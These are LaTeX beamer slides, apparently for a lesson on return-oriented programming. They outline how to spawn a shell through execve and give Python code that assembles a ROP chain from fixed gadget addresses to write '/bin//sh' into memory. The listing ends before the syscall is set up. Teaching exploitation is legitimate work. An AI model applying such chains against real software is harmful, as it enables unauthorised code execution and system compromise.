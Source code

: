 \documentclass[11pt]{beamer}
\begin{document}
\subsection{General approach}
\begin{frame}[fragile]
    \frametitle{Spawning a shell: Approach}
    \begin{itemize}
        \item Using ROPgadget we can find our desired gadgets
        \item Lets say we want to execute a shell using execve, for that we need to accomplish the following goals
        \begin{enumerate}
            \item write /bin/sh into memory (at the data segment)
            \item init systemcall number (11)
            \item init systemcall argument (address of /bin//sh)
            \item call systemcall
        \end{enumerate}
        \item All of this has to be done using Bytes that are not \Verb+\\0x00+ because thats the character used for identifying the end of a string.
    \end{itemize}
\end{frame}
\subsection{Generating the payload}
\begin{frame}[fragile]
    \frametitle{Generating the payload, defining all gadgets}
    \begin{lstlisting}[style=code, language=python]
from struct import pack
import os
data = 0x080e3020
xor_eax_eax = 0x0804e234 # xor eax, eax ; ret
pop_eax = 0x080ac96a # pop eax ; ret
pop_ebx = 0x08049022 # pop ebx ; ret
pop_ecx = 0x0807f9a3 # pop ecx ; ret
pop_edx = 0x0807f133 # pop edx ; and eax, 0xe850fffd ; ret
inc_eax = 0x0809fc6e # inc eax ; ret
int_80 = 0x080499c2 # int 0x80
mov_edx_eax = 0x0804eed2 # mov dword ptr [edx], eax ; ret
filler = 0x11111111
# Padding goes here
p = bytes('AAAAAAAABBBB', 'ascii')
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Generating the payload, writing /bin//sh}
    \begin{lstlisting}[style=code, language=python]
p += pack('<I', pop_edx) # write address of .data into edx
p += pack('<I', data)
p += pack('<I', pop_eax) # write /bin into eax
p += bytes('/bin', 'ascii')
p += pack('<I', mov_edx_eax) # mov to .data
p += pack('<I', pop_edx) # address of .data + 4 into edx
p += pack('<I', data + 4)
p += pack('<I', pop_eax) # //sh into eax
p += bytes('//sh', 'ascii')
p += pack('<I', mov_edx_eax) # mov to .data
    \end{lstlisting}
\end{frame}
\end{document}
